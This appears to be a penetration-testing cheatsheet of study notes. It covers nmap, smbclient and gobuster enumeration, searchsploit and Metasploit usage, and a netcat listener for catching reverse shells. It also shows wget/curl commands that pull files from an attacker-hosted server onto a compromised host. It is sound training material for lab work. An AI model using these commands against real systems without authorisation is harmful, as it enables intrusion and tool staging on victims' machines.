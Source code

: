 # 🛠️ Tools and Cheatsheets

## Socat

A tool like netcat but with more functionality like port forwarding and connecting to serial devices.

---

## Common Ports

[PacketLife Common Ports (Archived PDF)](https://web.archive.org/web/20240315102711/https://packetlife.net/media/library/23/common-ports.pdf)

---

## Tmux Cheatsheet

[tmuxcheatsheet.com](https://tmuxcheatsheet.com/)

---

## Vim Basics

```text
i       → insert mode  
esc     → leave insert mode  
x       → cut character  
dw      → cut word  
dd      → cut full line  
yw      → copy word  
yy      → copy full line  
p       → paste

# Multiply commands:
4yw     → copy 4 words

# Command mode:
:1      → go to line 1  
:w      → save file  
:q      → quit  
:q!     → quit without saving  
:wq     → write and quit
```

---

# 🧪 Scanning and Enumeration

## Nmap

```text
PORT    STATE    SERVICE
21/tcp  open     ftp

# Notes:
- Scans the 1000 most common ports by default.
- Default scan performs a TCP handshake.
- "filtered" state means a firewall is blocking the port.
- "SERVICE" shows the typical service name.
- To see the actual process, specify additional flags.

# Parameters:
-sC     → default scripts for detailed info  
-sV     → service/version detection  
-p-     → scan all ports

# Banner Grabbing:
nmap -sV --script=banner <target>
```

## smbclient

```bash
# Enumerate SMB shares:
smbclient -N -L \\10.129.42.253

# Flags:
-L     → list available shares  
-N     → suppress password prompt
```

---

# 🌐 Web Enumeration

## Gobuster

```bash
# Directory enumeration:
gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt

# Response codes:
200 → successful  
403 → forbidden  
301 → redirection

# DNS subdomain enumeration:
gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt

# Prerequisites:
- Install SecLists  
- Set a DNS server like 1.1.1.1 in /etc/resolv.conf
```

## curl

```bash
# Banner grabbing:
curl -IL https://www.inlanefreight.com
```

## whatweb

Like curl but more powerful for web enumeration.

## Certificates

SSL/TLS certificates may leak useful metadata for phishing or enumeration.

## robots.txt

This file tells crawlers what to ignore. It can expose sensitive or hidden directories.

## Source Code

Always check the source code of web pages. Developers sometimes leave sensitive info in comments or JavaScript.

---

# 🔍 Public Exploits

## searchsploit

```bash
# Install:
sudo apt install exploitdb -y

# Usage:
searchsploit openssh 7.2
```

## Metasploit (msfconsole)

```bash
# Find an exploit:
search exploit

# Use one:
use <exploit_path>

# Configure it:
show options
set <option> <value>

# Run it:
check
run or exploit
```

---

# 🔌 Connections

## Netcat

```bash
# Listen for a reverse shell:
nc -lvnp 1234

# Flags:
-l  → listen mode  
-v  → verbose  
-n  → no DNS resolution  
-p  → specify port
```

---

# 📁 Transferring Files

After gaining remote access via reverse shell, you may want to transfer files.

## Hosting a File with Python

```bash
cd /tmp
python3 -m http.server 8000
```

## Downloading with wget or curl (on the remote host)

```bash
# Using wget:
wget http://<your_ip>:8000/<file>

# Or using curl:
curl -O http://<your_ip>:8000/<file>
```
